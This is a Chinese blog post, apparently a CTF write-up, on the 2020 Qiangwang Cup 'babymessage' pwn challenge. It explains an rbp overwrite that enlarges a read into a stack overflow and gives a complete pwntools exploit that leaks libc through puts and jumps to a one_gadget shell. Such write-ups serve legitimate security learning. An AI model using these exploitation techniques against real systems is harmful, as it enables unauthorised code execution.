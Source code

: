 ```yaml
---
title: 2020强网杯线上 pwn write up
date: 2020-11-08 01:15:58
tags: CTF
---
```


tcl，只在指点下做上来一个签到题，懒狗复现也拖了很久  
## babymessage  
在work函数中  
![](baby1.png)
v1被赋值为16，而v3距离rbp的偏移是0x8，有8字节的溢出，可以控制到rbp，查看leave_message函数的汇编代码，发现read的size，也就是rdx，受rbp加一个偏移的控制，那么我们只需要控制到rbp，就有机会控制size，可以造成栈溢出  
那么我们控制rbp的值为0xe0，调试查看rdx的值  
![](baby2.png)
可以看到rdx已经被我们改成0xe0了，那么read的字节数就是0xe0，那么接下来直接rop  
### exp  

```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './babymessage' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("123.56.170.202",21342)
elf=ELF(binary)
libc=ELF('libc-2.27.so')
def pwn():
    p.recvuntil("choice:")
    p.sendline("2")
    p.recvuntil("age:")
    payload = "a"*8 + '\xe0'
    p.send(payload)
    p.recvuntil("choice:")
    p.sendline("2")
    p.recvuntil("age:")
    payload = "a"*16 + p64(0x0000000000400ac3)+ p64(elf.got['puts']) +  p64(elf.plt['puts']) + p64(0x4006e0)
    p.send(payload)
    libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-libc.sym['puts']
    log.success("libc_base==>" + hex(libc_base))
    one = libc_base + 0x4f365
    p.recvuntil("choice:")
    p.sendline("2")
    p.recvuntil("age:")
    payload = "a"*8 + '\xe0'
    p.send(payload)
    p.recvuntil("choice:")
    p.sendline("2")
    p.recvuntil("age:")
    payload = "a"*16 + p64(one)
    p.send(payload)
    p.interactive()
pwn()
```
